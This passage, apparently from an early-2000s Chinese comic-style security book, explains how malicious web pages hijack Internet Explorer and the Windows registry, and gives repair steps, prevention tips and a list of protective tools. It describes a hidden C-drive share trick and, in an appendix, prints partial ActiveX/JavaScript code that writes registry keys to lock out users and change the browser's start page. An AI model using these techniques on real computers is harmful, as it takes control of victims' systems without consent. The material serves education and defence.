







版本不同的超级兔子魔法可提供的调整项目不同。在“超级兔子魔法设置 2002”中，进行本项修复的设置窗口需要点击两次“+”，而在较低版本中，点击一次“+”即可进入本窗口。如果发现超级兔子魔法设置的此项功能不能使用，那是因为在未注册前，软件不提供高级修改功能。

## 3.2.4 在 Windows 启动时弹出一个窗口并自动访问某个网站

这种修改方法并不是修改了 IE，但也是利用了 IE 的漏洞，运行 Script 脚本，修改了注册表。当 Windows 启动时，弹出一个窗口，必须点击确定才能进入操作系统；与此同时，自动运行 IE 并访问某个网站。实质上，它修改了下面的注册表键值：

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon]`

> 榕哥喝了口茶，说：“这大概是目前最霸道的非破坏性的 IE 修改方法，不过，同样我们可以通过手工修改注册表或使用‘超级兔子魔法设置’来修复。”

选择“开始 -> 运行 -> regedit”，进入注册表，来到：

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon]`

在此项右栏找到“LegalNoticeCaption”和“LegalNoticeText”主键，把它们删除即可，如图 3-2-12。


以上所给出的键名是在 Win 98/Me 中的位置，在 Win NT/2000/XP 中，对应的键值在以下分支：

```reg
[HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon]
```

修复方法与上面介绍的方法相同，如图 3-2-13，删除相应键值即可。使用“超级兔子魔法设置”修复的方法是启动兔子魔法后，点击“安全与多用户”，再点击左上部的“+”号按钮，来到如图 3-2-14 所示的窗口：


把“启动时要显示的标题”和“启动时要显示的信息”两项内容删除，按“保存”按钮，重新启动操作系统，你将不再看到弹出的窗口。阿瓜心想，这个“超级兔子”果真不错。

## 3.2.5 锁上你的窗户——锁定设置项，禁止用户更改

IE 选项设置中的所有项目都可以控制，也就是说可以控制它是否有效。如果有效，当然可以对其修改；如果无效，该项目就会反白显示。下面将这些具体的子键和键值项列出。

以下键值项为 DWORD 值，设置为 1 表示起作用，也就是 IE 中的相应项目将无效。

- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\GeneralTab]`  
  Internet Explorer 选项中的常规页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\SecurityTab]`  
  Internet Explorer 选项中的安全页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\ContentTab]`  
  Internet Explorer 选项中的内容页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\ConnectionsTab]`  
  Internet Explorer 选项中的连接页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\ProgramsTab]`  
  Internet Explorer 选项中的程序页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\AdvancedTab]`  
  Internet Explorer 选项中的高级页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\PrivacyTab]`  
  Internet Explorer 选项中的隐私页（仅出现于 IE 6 以上版本）
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\HomePage]`  
  常规——主页
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Colors]`  
  常规——颜色
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Links]`  
  常规——链接
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Fonts]`  
  常规——字体
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Languages]`  
  常规——语言

以上是各大选项页的控制项，下面介绍的是各小项的控制项。

- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Accessibility]`  
  常规——辅助功能
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\History]`  
  常规——历史
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Cache]`  
  常规——IE 临时文件大小设置控制
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Settings]`  
  常规——Internet 临时文件
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\SecChangeSettings]`  
  安全——自定义级别
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\SecAddSites]`  
  安全——增加站点控制
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Ratings]`  
  内容——分级审查
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Certificates]`  
  内容——证书
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\CertifPers]`  
  内容——个人证书
- `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\CertifSite]`  
  内容——证书站点
- 内容——证书发行商  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\CertifPub]`
- 内容——个人信息——配置文件  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Profiles]`
- 内容——个人信息——自动完成——表单  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\FormSuggest]`
- 内容——个人信息——自动完成——表单上的用户名和密码  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\FormSuggest Passwords]`
- 连接——建立连接  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Connwiz Admin Lock]`
- 连接——连接设置  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Connection Settings]`
- 连接——代理  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Proxy]`
- 连接——局域网自动配置  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\AutoConfig]`
- 程序——日历、联系人列表  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\CalendarContact]`
- 程序——电子邮件、新闻组、Internet 呼叫  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Messaging]`
- 程序——重置 Web 设置  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\ResetWebSettings]`
- 程序——检查 IE 是不是默认浏览器  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Check_If_Default]`
- （高级）  
  `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel\Advanced]`

榕哥指着电脑上的文件说：“以上就是注册表中 IE 选项控制键值。”阿瓜问：“那怎么用啊？”榕哥用鼠标点着屏幕说：“听我告诉你使用方法。”

假设要屏蔽“常规”选项页，只用在 `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]` 下建立一个名为 `GeneralTab` 的 DWORD 值，并修改为 1，IE 浏览器“Internet 选项”中的“常规”页就不会显示，如图 3-2-15。

要屏蔽与主页相关的选项，可以在 `[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]` 下建立一个名为 `HomePage` 的 DWORD 值，并修改为 1，这样就可以直接取消 IE 中有关主页的选项，如图 3-2-16。

还原方法：将 `DWORD=1` 修改为 `DWORD=0` 即可。


3-2-15 安全设置图


3-2-16 常规页将变成灰度条而不能修改

“超级兔子魔法设置”同样可以对这样的修改进行修复。

进入“IE 浏览器”项，点击窗口右上部的“+”进入如下图所示窗口，点击“全否”按钮，如图 3-2-17，保存并重新启动 IE，这样所有的设置项就恢复正常了。


3-2-17 超级兔子的常规页设置

#### 3.2.6 锁定注册表编辑器

本项攻击的作用是将注册表编辑器锁定，让用户不能对注册表作任何的修改与操作。当用户试图运行注册表编辑器 regedit.exe 时，系统将会弹出如图 3-2-18 所示的对话框。

榕哥看了阿瓜一眼说：“因此，我们不能通过手工修改注册表来实现修复。”

阿瓜问：“那怎么办啊？”


3-2-18 被禁止的注册表警告

榕哥说：“你听我说啊。”

使用“超级兔子魔法设置”进行修复需要使用它的“安全与多用户”设置项，点击“安全与多用户”之后出现如图 3-2-19 的窗口。


3-2-19 通过超级兔子解除或者禁止注册表

取消图中被框起来的选项，即“禁止使用注册表编辑器”，去掉前面的勾，点击“保存”，注册表编辑器就又可以使用了。

## 3.2.7 容客入室——浏览网页硬盘被共享

榕哥说：“其实，所谓的浏览网页时硬盘被共享，这和‘万花谷’一样，受害者都是在浏览了含有有害代码的 ActiveX 网页文件后中招的。以下是该网页原代码中的关键部分。”

以“Shl.RegWrite”开头的这几句代码的作用是写入浏览者的注册表，在 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan` 下面添加键值“RWC$”，在 RWC$ 下又分别建立键值“Flags”“Type”“Path”，这样就把 C 盘设为共享了，共享名为 RWC$。而且你在网络属性中还看不到硬盘被共享！

“Flags”=`dword:00000302` 改成 “Flags”=`dword:00000402` 就可看到硬盘已被共享。看来这个害人的家伙很聪明，想到了把 Flags 值改成 302 后就可以秘密共享……

榕哥继续：“由于只要浏览这类网页硬盘即被共享，因此其危害较之木马更大。如果不小心中招，那么给你下套的人完全可以把你的硬盘当做他的一个逻辑硬盘，他可以在你电脑中随意拷贝文件、删除文件、给文件改名……如果这样还不能令他满意，他完全可以给你再种上木马（哦，错了！不是一个，是一帮木马），哪怕你就生不如死了，什么秘密都没有了。上网账号、QQ 密码、给 MM 的信件……如果他愿意还可以格式化你的硬盘，或者是在你的电脑中运行‘江民逻辑炸弹’之类的软件破坏你的硬盘。总之，你的一切都在他的掌握之下了，想想够可怕了吧？！”

> 阿瓜说：“怕！怎么办？”

榕哥说：“解决办法如下。”

把 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan` 下面的“RWC$”删除。狠一点的，也可以把 `Windows\system\` 下面的 `Vserver.vxd`（Microsoft 网络上的文件与打印机共享、虚拟设备驱动程序）删掉，再把 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\` 下的 `Vserver` 键值删掉，永绝这类“木马”的后路吧。

### 防御防范

- 要避免中招，关键是不要轻易去一些自己并不了解的站点，特别是那些看上去美丽诱人的网址更不要贸然前往，否则吃亏的往往是你。
- 运行 IE，点击“工具”→“Internet 选项”→“安全”→“Internet 区域的安全级别”，把安全级别由“中”改为“高”。
- 由于该类网页是含有有害代码的 ActiveX 网页文件，因此在 IE 设置中将 ActiveX 插件和控件、Java 脚本等全部禁止就可以避免中招。具体方法是：在 IE 窗口中点击“工具”→“Internet 选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有 ActiveX 插件和控件以及 Java 相关全部选择“禁用”即可。
- （续）不过，这样设置以后可能会在网页浏览过程中造成一些正常使用 ActiveX 的网站无法浏览。
- 对于 Win 98 用户，请打开 `C:\WINDOWS\JAVA\Packages\CVLV1NEB.ZIP`，把其中的“ActiveXComponent.class”删除；对于 Win Me 用户，请打开 `C:\WINDOWS\JAVA\Packages\5NZVFPF1.ZIP`，把其中的“ActiveXComponent.class”删除。请放心，删除这个组件不会影响到你正常浏览网页的。
- 既然这类网页是通过修改注册表来破坏我们的系统，那么我们可以事先把注册表加锁：禁止修改注册表，这样就可以达到预防的目的。
- 安装网络防火墙，特别是安装了 Norton 2001 后，进入该类网页就会报警提示有脚本写注册表，国产反病毒软件 KVW 3000 也有此类功效，建议您也安装一个这样的软件。
- 虽然经过一番辛苦的劳动修改回了标题和默认连接首页，但如果以后又不小心进入该……

### 加锁方法如下

- 运行注册表编辑器 regedit.exe；展开注册表到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下，新建一个名为 `DisableRegistryTools` 的 DWORD 值，并将其值改为“1”，即可禁止使用注册表编辑器 regedit.exe。

### 解锁方法如下

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

用记事本编辑一个任意名字的 `.reg` 文件，比如 `unlock.reg`，内容如上并保存。这样你就有了一把解锁的钥匙了！如果要使用注册表编辑器，则双击 `unlock.reg` 即可。要注意的是，在“REGEDIT4”后面一定要空一行，并且“REGEDIT4”中的“4”和“T”之间一定不能有空格，否则没有任何效果！

站就又得麻烦一次。其实，你可以在 IE 中做一些设置以便永远不进该站点：

打开 IE，点击“工具”→“Internet 选项”→“内容”→“分级审查”，点“启用”按钮，会调出“分级审查”对话框，然后点击“许可站点”标签，输入不想去的网址，如：http://www.XXXX.com，按“从不”按钮，再点击“确定”即大功告成！

阿瓜心想：“果然厉害。”

### 3.3 用纱窗阻止飞虫——网页作怪的预防方法

榕哥问阿瓜：“如果要防止苍蝇蚊子从你的窗户飞进你的房间里，该怎么办啊？”

阿瓜想了想说：“关上窗户。”

榕哥晕倒。

榕哥诱导阿瓜：“关上窗户，就没有新鲜空气了，那怎么办？”

阿瓜：“用空调。”

榕哥急了：“你怎么就不配合呢？你说用纱窗不就行了！”

阿瓜：“……”

榕哥说：“要防止别人的恶意代码修改自己的浏览器等电脑设置，同样我们要给电脑加上一层纱窗。”方法是这样的：

- 到 IE 里禁止 JavaScript 脚本的运行。由于现在的网页多数插入了脚本，以达到一定的功能和实现相应的效果。因此，这是种饮鸩止渴的方法，但是实用，建议在 IE 的设置中将脚本设为“提示”。
- 使用 Win 2000 系列操作系统，可在一定的程度上遏制恶作剧，比如禁止启动时弹出窗口。
- 在 Win 2000 系列操作系统中，为了增强安全性能，在设置上可用管理工具。我们进入“控制面板”→“管理工具”→“服务”，把 Remote Registry Service 服务禁止（如图 3-2-20 所示），这样在浏览网页时就不会出现恶作剧地修改注册表了。

> 傻瓜提示：此法对于某些情况可能无效。

建议安装 Norton AntiVirus 2002 v8.0 杀毒软件，此软件已经把通过 IE 修改注册表的代码定义为 Trojan.Offensive，增加了 Script Blocking 功能，它将对此类恶作剧进行监控，并予以拦截。它也是目前最好的解决方法。


### 3.4 常用防护软件简介

榕哥狠了狠心说：“其实现在有很多专用的 Web 防护软件，一起告诉你吧。”

#### 1、IE 修复大师

软件版本：2.0 加强版

软件大小：838K

软件类型：免费

软件介绍：可自动修复 IE 浏览器的标题栏、起始页位置、在电脑启动时弹出的对话框等。

#### 2、IE 浏览器标题栏修改器（IETitleFixer）

软件版本：1.3

软件大小：25K

软件类型：免费

软件主页：http://go.163.com/qiannet

软件介绍：最近这段时间在坛子里潜水时发现好多人惨遭一些个人主页的暗算，IE 浏览器的标题栏被篡改成那些个人主页的名字。其实原理很简单，就是将注册表中的相应键值修改就行了，但是修改注册表毕竟挺麻烦的，所以就找了个小东东，给大家减少一些麻烦吧。使用方法：运行以后在界面的上方的预览区就会显示当前 IE 的标题栏，在下方的修改区中，可以选择恢复成 IE 原来的默认标题栏，或者自定义成任何你喜欢的名字，诸如“我的浏览器”，彰显个性吧！然后呢，通过“预览”按钮就完成了修改，简单吧？

#### 3、IE 标题栏恢复精灵

软件版本：1.0

软件大小：1K

软件类型：免费

软件主页：无

软件介绍：在浏览一些网站的时候，一些网站没有经过浏览者的同意，就强制将网站的一些信息加入到浏览者的 IE 标题栏／IE 默认主页里，这个文件就是把这些信息给去除掉。只需点击 reg 文件就可以轻松清除，无须安装。

#### 4、美萍反黄专家

软件版本：2.6

软件大小：566K

软件类型：共享

软件主页：http://www.mpsoft.net/

软件介绍：可以解决近来浏览过某些网站后，会修改锁定你的主页设置，而且无法修改的问题。

#### 5、IE 设置选项完全控制工具

软件版本：1.0

软件大小：251K

软件类型：免费

软件主页：mailto:zhaozhihong@eyou.com

软件介绍：可以控制 IE 选项中的所有内容，包括标题、主页等设置修改，同时还可以解除 Regedit.exe 被锁定的难题。

#### 6、IE 标题“修理工”

软件版本：2.0

软件大小：56K

软件类型：免费

软件主页：http://hiroko.ee.ntu.edu.tw/

软件介绍：IE “标题”和“主页”被篡改了怎么办？请用 IE 标题“修理工”！

- 操作简单，被篡改后只需运行“立即修理”
- 定义方便
- 长期有效，重启 Windows 后自动恢复
- 绿色安装，不给注册表增加垃圾
- 文件小巧，只需 50KB 空间，不需要 VB6 运行库
- 不占资源，重启 Windows 自动运行并自动退出，不占 CPU 和内存，不会反复修改硬盘注册表，因此不会造成系统变慢或死机

#### 7、IE 保护器

软件版本：2.4

软件大小：5K

软件类型：共享

软件主页：http://goseaside.8u8.com/

软件介绍：设计目的是为了保护 IE 的默认主页不受非法修改。安装该软件后，默认主页的修改只能在该软件内进行。保护默认主页不受修改，删除 IE 的右键菜单；恢复 IE 标题；恢复系统登录标题，预防 Nimda 从网页入侵；软件在运行的时候彻底保护系统不受非法站点有害脚本影响；非注册用户可免费使用该功能一天，注册用户则一直有效；如果有站点企图非法操作系统将弹出一个提示；提供了第三方插件功能。


## 擦灰尘：

关于通过网页来攻击电脑的东西就是这些了。当然我们在这里涉及到的很多知识都只是轻轻带过，各位读者如果对某部分知识特别感兴趣，请自行参阅其它资料。

### 附文：用来攻击的恶意代码案例

```javascript
document.write("<APPLET HEIGHT=0 WIDTH=0 code=......></APPLET>");
file:// 嵌入 Applet 文件
function f(){ file:// 做出修改的语句就在这个函数里
try
{
//ActiveX initialization
a1=document.applets[0]; file:// 获取 applet 运行对象，以下语句指向注册表中有关 IE 的表项
a1.setCLSID("{..............}");
a1.createInstance();
Shl = a1.GetObject();
a1.setCLSID("{..............}");
a1.createInstance();
FSO = a1.GetObject();
a1.setCLSID("{..............}");
a1.createInstance();
Net = a1.GetObject();
```


```javascript
try
{
if (document.cookie.indexOf("Chg") == -1)
{
// 以下是对操作系统相关注册表项值项的修改
// 使系统没有“运行”项，以防止用户不能通过注册表编辑器来修复设置。
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoRun", 01, "REG_BINARY");

// 让操作系统无“关闭系统”选项
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoClose", 01, "REG_BINARY");

// 让操作系统无“注销”选项
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoLogOff", 01, "REG_BINARY");

// 注：使受害者系统没有“注销”项
// 让操作系统无逻辑驱动器 C
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoDrives", "00000004", "REG_DWORD");

// 禁止运行所有的 DOS 应用程序
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\WinOldApp\\Disabled", "REG_BINARY");

// 让操作系统无法切换至传统 DOS 的实模式下
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\WinOldApp\\NoRealMode", "REG_BINARY");

// 让系统登录时显示一个登录窗口，以下是写入启动弹出对话框标题
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Winlogon\\LegalNoticeCaption", "........");
}
}
```

```javascript
NoticeCaption", "........");
// 写入启动弹出对话框内容
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Winlogon\\LegalNoticeText", "..............");

// 以下是对 IE 相关注册表项值项的修改
// 设置浏览器默认主页
Shl.RegWrite("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page", "............");

// 修改启动中的输入法启动项
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\internat.exe", "..............");

// 设置注册表不可更改
Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\WinOldApp\\NoRealMode", "00000000", "REG_DWORD");

// 修改浏览器的标题栏
Shl.RegWrite("HKLM\\Software\\Microsoft\\InternetExplorer\\Main\\WindowTitle", "..............");
Shl.RegWrite("HKCU\\Software\\Microsoft\\InternetExplorer\\Main\\WindowTitle", "..............");

// 以下程序是将含恶意代码的网页添加至收藏夹中
var WF, Shor, loc;
WF = FSO.GetSpecialFolder(0);
loc = WF + "\\Favorites";
if (!FSO.FolderExists(loc))
{
  loc = FSO.GetDriveName(WF) + "\\Documents and Settings\\" + Net.UserName + "\\Favorites";
  if (FSO.FolderExists(loc))
  {
    AddFavLnk(loc, "显示标题.....", "URL......");
  }
}

// 设置 cookie 值
```

```javascript
var expdate = new Date((new Date()).getTime() + (1));
document.cookie="Chg=general; expires="
+ expdate.toGMTString() + "; path=/;"
    }
}

catch (e)
{}
}

catch (e)
{}
}

// 初始化函数，并每隔一秒执行修改程序
function init()
{
setTimeout("f()", 1000);
}
```


## 漫小说

## 上：无厘头市

## 第4季-号


## 深入敌后

## ——远程攻击

阿瓜这些日子把上网用的各种名词解释都弄得滚瓜烂熟。浏览的网页也是海阔天空，无所不包，无所不容。这些天没事了就琢磨，这些天我也学了不少东西，但是对于黑客们所从事的事情却还有很多弄不明白，比如：黑客们入侵五角大楼啦；中美黑客大战啦，他们都是怎么做到的呢？阿瓜的好奇心上来了，于是上网给榕哥发了个 E-mail，提出了自己的疑问。晚上，阿瓜收到了榕哥的回信。榕哥的回信很简单。信中说：

> 网络把世界各地的电脑连接在一起，就像道路连接着无数的门户一样。你喜欢到各处逛逛，但是有的门却是上了锁的，而门里面的东西你又偏偏想看看，那么怎么办呢？那就需要利用远程入侵的手段了。就像黑客们入侵五角大楼，其实就是利用远程入侵的方法做到的。其实，黑客所做的大部分事就是远程入侵主机，获得超级用户权限。这里面的学问很多，有些技术很复杂，但是原理都很简单的。主要就是利用主机安全上的缺陷，或人为地制造缺陷，从而使自己获得额外的权限。有些技术很适合初学者学习，了解了这些技术，就会对黑客入侵的内幕有比较清晰的印象了。

## 常用的入侵方法有：

- 利用木马入侵。
- 利用 Win2000 漏洞入侵。
- 利用 Win98 共享漏洞入侵。
- 利用 WEB 服务器的漏洞入侵。
- 通过远程密码破解入侵。

阿瓜啊，你可以自己上网下点资料来看看，有什么不明白再问我吧。

阿瓜看完信息：“原来是这个样子的啊”。好吧，就按榕哥说的方法研究研究。阿瓜决定按榕哥列的几条找些资料看看。于是，阿瓜第二天一早就开始忙起来。

### 4.1 送个宠物给你——利用木马入侵

阿瓜上网搜索“木马”，找到了很多关于木马的资料。大概意思如下所述。木马是运行于远程主机的软件，学名叫做“远程控制工具”，实现的是“后门”的功能。它的特点是体积小，功能强，运行隐蔽。可以这样说，你能够在自己的电脑上做什么，它也同样可以办到，你能够写文件，它也可以写，你能够看图片，它也可以看，它还可以得到你的隐私、密码，甚至你在电脑上鼠标的每一个移动，它都可以尽收眼底！而且还能够控制你的鼠标和键盘去做他想做的任何事，比如打开你珍藏的网友照片，然后在你面前将它永久删除等。

木马是初学入侵者的首选。因为它上手简单，且不用强记硬背那些复杂的命令语句，使很多刚接触它的人能够马上得到一种入侵的快感，但久之也养成了一些人对木马的依赖，不思进取，认为只要木马在手，天下机器任我行。事实绝非如此！

